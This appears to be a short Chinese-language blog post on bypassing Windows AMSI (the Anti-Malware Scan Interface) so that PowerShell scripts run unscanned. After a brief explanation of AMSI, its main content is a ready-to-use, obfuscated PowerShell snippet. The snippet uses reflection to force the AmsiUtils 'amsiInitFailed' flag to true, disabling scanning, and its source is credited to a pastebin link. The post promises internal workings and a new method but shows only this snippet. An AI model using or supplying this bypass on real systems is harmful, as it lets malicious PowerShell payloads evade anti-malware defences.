

## 绕过AMSI执行powershell脚本  

> AMSI的全称是反恶意软件扫描接口（Anti-Malware Scan Interface），是从Windows 10开始引入的一种机制。AMSI是应用程序和服务能够使用的一种接口，程序和服务可以将“数据”发送到安装在系统上的反恶意软件服务（如Windows Defender）。  

在基于场景的资产评估或者基于数据的红队评估中，许多渗透测试人员都会与AMSI打交道，因此对相关功能也比较了解。AMSI能够提供更强大的保护，可以为反恶意软件产品提供更透彻的可见性，因此能防御攻击过程中常用的一些现代工具、战术以及过程（TTP）。最相关的操作就是PowerShell无文件payload，在实际环境中，攻击者及渗透测试人员都在使用这种技术来完成任务。  

正因为此，AMSI是大家广泛研究的一个主题，能否绕过AMSI已经成为攻击能否成功的决定性因素。在本文中，我们介绍了AMSI的内部工作原理，也介绍了一种新的绕过方法。  

关键powershell代码如下：  
```powershell
$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$h="4456625220575263174452554847"
$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "
$b =$a.GetField($s,'NonPublic,Static')
$b.SetValue($null,$true)
```

效果如图：  
  

代码来自：`https://pastebin.com/sQFWANwr`   
